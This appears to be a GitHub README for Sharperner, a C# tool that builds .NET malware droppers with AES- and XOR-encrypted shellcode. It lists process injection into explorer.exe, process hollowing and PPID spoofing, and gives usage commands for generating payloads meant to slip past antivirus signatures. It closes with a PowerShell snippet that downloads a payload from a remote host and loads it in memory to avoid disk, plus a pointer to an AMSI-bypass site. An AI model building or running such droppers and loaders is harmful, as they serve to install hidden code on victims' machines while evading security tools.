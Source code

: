 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

### Features
* Support multiple shellcode input
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Process Hollowing + PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### Usage
```
/file       B64,hex,raw shellcode
/type       cs,cpp
/key        XOR Key (Optional)
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt /type:cpp
Sharperner.exe /file:file.txt /key:'l0v3151nth3a1ry000www' /out:payload.exe
```

### Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```